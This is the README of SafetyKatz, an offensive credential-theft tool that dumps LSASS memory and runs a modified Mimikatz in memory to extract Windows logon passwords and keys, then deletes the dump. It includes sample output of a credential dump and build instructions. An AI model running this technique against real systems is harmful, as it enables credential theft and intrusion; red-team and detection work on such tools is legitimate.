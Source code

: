 # SafetyKatz

----

SafetyKatz is a combination of slightly modified version of [@gentilkiwi](https://twitter.com/gentilkiwi)'s [Mimikatz](https://github.com/gentilkiwi/mimikatz/) project and [@subtee](https://twitter.com/subtee)'s [.NET PE Loader](https://github.com/re4lity/subTee-gits-backups/blob/master/PELoader.cs).

First, the [MiniDumpWriteDump](https://docs.microsoft.com/en-us/windows/desktop/api/minidumpapiset/nf-minidumpapiset-minidumpwritedump) Win32 API call is used to create a minidump of LSASS to C:\Windows\Temp\debug.bin. Then @subtee's PELoader is used to load a customized version of Mimikatz that runs
**sekurlsa::logonpasswords** and **sekurlsa::ekeys** on the minidump file, removing the file after execution is complete.

#### Modifications

* @subtee's PE Loader was slightly modified so some of the pointer arithmetic worked better on .NET 3.5
* @gentilkiwi's Mimikatz project was modified to strip some functionality for size reasons, and to automatically run the sekurlsa::minidump mode (deleting the minidump file after). If you don't trust my compiled version, feel free to build it yourself :)


[@harmj0y](https://twitter.com/harmj0y) is the primary author of this port.

SafetyKatz is licensed under the BSD 3-Clause license.

## Usage

    C:\Temp>SafetyKatz.exe

    [*] Dumping lsass (808) to C:\WINDOWS\Temp\debug.bin
    [+] Dump successful!

    [*] Executing loaded Mimikatz PE

    .#####.   mimikatz 2.1.1 (x64) built on Jul  7 2018 03:36:26 - lil!
    .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
    ## / \ ##  / *** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
    ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
    '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
    '#####'        > http://pingcastle.com / http://mysmartlogon.com   *** /

    mimikatz # Opening : 'C:\Windows\Temp\debug.bin' file for minidump...

    Authentication Id : 0 ; 28935082 (00000000:01b983aa)
    Session           : Interactive from 0
    User Name         : blahuser
    Domain            : WINDOWS10
    Logon Server      : WINDOWS10
    Logon Time        : 7/15/2018 1:07:55 PM
    SID               : S-1-5-21-1473254003-2681465353-4059813368-1002
            msv :
            [00000003]
    Primary
            * Username : blahuser
            * Domain   : WINDOWS10

    ...(snip)...

    mimikatz # deleting C:\Windows\Temp\debug.bin


## Compile Instructions

We are not planning on releasing binaries for SafetyKatz, so you will have to compile yourself :)

SafetyKatz has been built against.NET 3.5 and is compatible with[Visual Studio 2015 Community Edition](https://go.microsoft.com/fwlink/?LinkId=532606&clcid=0x409). Simply open up the project .sln, choose "release", and build.
